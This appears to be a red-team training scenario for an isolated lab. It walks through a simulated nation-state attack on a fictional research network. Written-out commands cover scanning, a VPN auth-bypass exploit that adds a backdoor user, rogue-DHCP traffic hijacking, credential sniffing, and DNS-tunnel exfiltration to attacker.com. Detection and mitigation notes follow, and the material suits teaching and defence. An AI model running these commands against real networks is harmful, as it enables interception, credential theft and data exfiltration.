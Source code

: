 # Operation DHCP Deception

Objective: Simulate a nation-state adversary subverting VPN integrity and DHCP trust to intercept traffic, harvest credentials, and pivot into protected research resources, culminating in the exfiltration of cryptographic project data.

Scenario: The [MycoSec](entity.md) lab network relies on VPN gateways for remote access and DHCP for address assignment. Development workstations and research servers are segmented but reachable through trusted routing paths. By exploiting a VPN vulnerability and deploying a rogue DHCP service, the adversary reroutes internal traffic, intercepts sensitive communications, and leverages stolen credentials to compromise a high-value research server.

## Adversary profile

- Designation: APT-29 ("Shadow Hydra")
- Level: Nation-state sophistication
- Primary TTPs: 
  - T1190 (Exploit Public-Facing Application)
  - T1040 (Network Sniffing) 
  - T1557 (Adversary-in-the-Middle)
  - T1098 (Account Manipulation)
- Motivation: Steal simulated research data on MycoSec's cryptographic projects by compromising VPN integrity and pivoting to internal resources.

## Phase 1: Reconnaissance (T1590/T1595)

Objective: Identify VPN endpoints, DHCP services, and internal network topology.

1.  Scan for VPN Endpoints:
    ```bash
    nmap -sS -p 443,1194,51820 192.168.1.0/24 -oN vpn_scan.txt
    ```
    - Finding: OpenVPN UDP/1194 and WireGuard UDP/51820 detected at `192.168.1.5`.

2.  Discover DHCP Services:
    ```bash
    nmap -sU -p 67,68 192.168.1.0/24 --script dhcp-discover
    ```
    - Finding: DHCP server at `192.168.1.1` (router).

3.  Map Internal Routes:
    ```bash
    traceroute -n 192.168.2.100  # Internal research server
    ```
    - Finding: Traffic routes via `192.168.1.1` (gateway).

Detection Evasion: Use fragmented packets and random scan delays to avoid SIEM alerts.

## Phase 2: Initial Access (T1190)
Objective: Compromise the VPN gateway using a known vulnerability.

1.  Exploit CVE-2023-46805 (Ivanti VPN Auth Bypass):
    ```bash
    python3 ivanti_exploit.py --target 192.168.1.5 --command "useradd -m backdoor"
    ```
2.  Establish Foothold:
    ```bash
    ssh backdoor@192.168.1.5  # Password: default compromised
    ```
3.  Extract VPN Configs:
    ```bash
    cat /etc/openvpn/server.conf  # Reveals internal IP range: 192.168.2.0/24
    ```

Persistence: Add SSH key to `authorized_keys` for reliable access.

## Phase 3: DHCP Spoofing (T1557)
Objective: Become the rogue DHCP server to hijack traffic.

1.  Deploy Rogue DHCP Server (using `dnsmasq`):
    ```bash
    dnsmasq --interface=eth0 --dhcp-range=192.168.1.100,192.168.1.200,24h \
            --dhcp-option=121,0.0.0.0/0,192.168.1.254  # Malicious gateway
    ```
2.  Force Client Renewals:
    ```bash
    dhcping -s 192.168.1.254 -c 192.168.1.50  # Target research workstation
    ```
3.  Verify Hijacking:
    ```bash
    ip route show  # On target: default via 192.168.1.254 (attacker)
    ```

Impact: 100% of lab VPN traffic now routes through attacker-controlled node.

## Phase 4: Traffic Interception (T1040)
Objective: Decrypt and analyze redirected traffic.

1.  Enable IP Forwarding (maintain stealth):
    ```bash
    sysctl -w net.ipv4.ip_forward=1
    iptables -t nat -A POSTROUTING -j MASQUERADE
    ```
2.  Capture Plaintext Data:
    ```bash
    tcpdump -i eth0 -w intercepted.pcap host 192.168.2.100 and port 80
    ```
3.  Harvest Credentials:
    - Analyze HTTP packets in Wireshark for basic auth strings.

Critical Finding: Simulated credentials `researcher:MycoSec2025!` extracted from HTTP login.

## Phase 5: Lateral Movement (T1021)
Objective: Pivot to the research server (`192.168.2.100`).

1.  SSH Access:
    ```bash
    ssh researcher@192.168.2.100  # Using stolen credentials
    ```
2.  Explore Critical Data:
    ```bash
    find /opt/mycosectest -name "*.pdf" -o -name "*.zip"  # Research archives
    ```
3.  Exfiltrate via DNS Tunneling (evade detection):
    ```bash
    dnscat2 --dns server=attacker.com,port=53 --secret=myco_exfil
    ```

Data Stolen: 2.5 GB of simulated cryptographic research data.

## Defensive Detection & Mitigation

### Detection points
1.  DHCP Snooping Alert: Unauthorized DHCP server detected at `192.168.1.254`.
2.  VPN Auth Anomaly: Multiple failed logins followed by success from unusual IP.
3.  DNS Exfiltration Alert: Unusual DNS query volume to `attacker.com`.

## Mitigations
- Implement DHCP Snooping on network switches to block rogue servers.
- Enforce MFA for VPN access to prevent credential exploitation.
- Segment Networks to restrict lateral movement (e.g., VLANs for research servers).
- Monitor DNS Traffic for anomalous patterns (e.g., high volume of TXT queries).

## Instructor Notes
- Lab Safety: All attacks confined to isolated VLANs (no production risk).
- Tools Provided:
  - `ivanti_exploit.py` (simulated CVE-2023-46805)
  - `dnsmasq` for DHCP spoofing
  - `dnscat2` for exfiltration
- Variants: Try WireGuard instead of OpenVPN to compare exploitation techniques.
